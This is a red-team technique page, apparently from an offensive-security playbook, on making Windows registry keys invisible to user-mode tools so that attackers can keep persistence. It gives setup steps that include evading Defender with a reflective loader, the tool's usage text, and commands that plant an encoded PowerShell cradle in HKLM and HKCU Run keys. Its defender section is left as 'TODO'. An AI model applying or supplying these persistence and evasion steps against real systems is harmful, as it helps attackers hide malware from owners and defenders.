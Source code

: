 # Invisible Registry Keys
## Summary

It's possible to craft invisible registry keys that the Windows NT kernel is able to read, but not any user-mode applications. This allows for some unique cases of persistence that is hard to detect from the defenders perspective.

## Prerequisites

The target must be windows, and you must run this tool with the appropriate access rights required for the hive you're trying to write to. HKLM requires Administrator/SYSTEM privileges, HKCU can be modified by the current user.

## Setup

This setup requires downloading and executing the following utility, defender may or may not catch this file on disk. Potentially use a [reflective PE loader](./windows_reflective_pe_loader.md) to avoid this issue. The executable in question can be found at https://github.com/NukingDragons/invisreg. Go to Releases and download the latest executable, compilation is not required.

## Execution

### Method 1 - invisreg.exe

Running invisreg.exe without any options will provide the following output:

```help
Usage: invisreg [operation] [path] [type] [value]
       operations:
         create - Create a new invisible registry key
         edit   - Edit an existing invisible registry key
         delete - Delete an existing invisible registry key
         query  - Query an invisible registry key
       path:
         Like this - HKLM:\PATH\TO\KEY
         supported hives:
           HKLM        - HKEY_LOCAL_MACHINE
           HKCU or HCU - HKEY_CURRENT_USER
           HKCR        - HKEY_CLASSES_ROOT
           HKCC        - HKEY_CURRENT_CONFIG
           HKU         - HKEY_USERS
       type:
         REG_SZ        - Value is expected to be a string
         REG_DWORD     - Value is expected to be a 32-bit integer
         REG_QWORD     - Value is expected to be a 64-bit integer
         REG_BINARY    - Value is expected to be the name of a file
       value:
         ...

Examples:
       invisreg create HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName REG_SZ "calc.exe"
       invisreg edit HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName REG_DWORD 1337
       invisreg delete HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName
       invisreg query HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName
```

To install a powershell cradle into the run key for persistence, the following command can be used:

```cmd
.\invisreg.exe create HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\Cradle REG_SZ "powershell -enc <base64>"
```

Or for a specific user:

```cmd
.\invisreg.exe create HKCU:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\Cradle REG_SZ "powershell -enc <base64>"
```

#### Indicators of Compromise

TODO